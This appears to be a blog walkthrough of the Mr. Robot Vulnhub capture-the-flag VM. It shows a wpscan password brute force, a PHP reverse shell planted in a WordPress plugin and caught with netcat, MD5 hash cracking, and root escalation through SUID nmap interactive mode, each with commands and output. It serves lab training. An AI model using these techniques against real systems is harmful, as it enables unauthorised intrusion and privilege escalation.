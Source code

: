 ```yaml
---
title: "Mr. Robot Vulnhub CTF Walkthrough"
description: "Mr. Robot Vulnhub CTF Walkthrough"
layout: post
---
```

DESCRIPTION
{% highlight text %}
Based on the show, Mr. Robot.

This VM has three keys hidden in different locations. Your goal is to find all three. Each key is progressively difficult to find.

The VM isn't too difficult. There isn't any advanced exploitation or reverse engineering. The level is considered beginner-intermediate.
{% endhighlight %}
nmap
{% highlight terminal %}
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd
{% endhighlight %}

Checking the source code on the site shows that this is a wordpress based website. 

{% highlight text %}
robots.txt
User-agent: *
fsocity.dic
key-1-of-3.txt
{% endhighlight %}

let's wget the dictionary 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/mr.robot]
└─$ wget http://192.168.56.129/fsocity.dic 
{% endhighlight %}

guessing that the user is called elliot thanks to a leak in the wordpress login page

using wpscan to bruteforce the login for user elliot
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/mr.robot]
└─$ wpscan --url http://192.168.56.129/ -U elliot -P fsocity.dic
{% endhighlight %}

This will take a while due to the duplicates in the file let's trim it with uniq:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/mr.robot]
└─$ sort fsocity.dic | uniq | wc -l                                              2 ⨯
11451
                                                                                    
┌──(kali㉿kali)-[~/ctfs/mr.robot]
└─$ sort fsocity.dic | uniq > fsoc.uniq.dic 
{% endhighlight %}

using the new word list 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/mr.robot]
└─$ wpscan --url http://192.168.56.129/ -U elliot -P fsoc.uniq.dic  

[!] Valid Combinations Found:
 | Username: elliot, Password: ER28-0652
{% endhighlight %}


Log into the instance to upload a PHP reverse TCP shell (pentest monkey) by
injecting code into the Dolly plugin.
 
Activate the plugin after setting up a netcat listener: 

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/mr.robot]
└─$ nc -lp 6666            
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 09:54:51 up 39 min,  0 users,  load average: 0.00, 0.09, 0.21
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 
{% endhighlight %}

getting a low privilege interactive shell on the system: 
{% highlight terminal %}
$ python3 --version
Python 3.4.0
$ python3 -c 'import pty; pty.spawn("/bin/bash");'
daemon@linux:/$ 
{% endhighlight %}

enumerating SUID binaries on the system
{% highlight terminal %}
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
daemon@linux:/$
{% endhighlight %}

nmap jumps out at me. can daemon run it? maybe robot can run it to escalate privileges later on. 

poking around in the robot users home directory
{% highlight terminal %}
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@linux:/home/robot$ 
{% endhighlight %}

Let's see if crackstation has that md5 cracked. Yes: abcdefghijklmnopqrstuvwxyz

switching to user robot and getting the second flag:
{% highlight terminal %}
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ 
{% endhighlight %}

Getting the second flag:
{% highlight terminal %}
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
{% endhighlight %}


As asserted before, the robot user can use nmap. When run in interactive mode, we 
can drop into a bash shell using the following set of commands: 
{% highlight terminal %}
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !whoami
!whoami
root
waiting to reap child : No child processes
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# 
{% endhighlight %}

Getting the final flag: 
{% highlight terminal %}
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
{% endhighlight %}
 
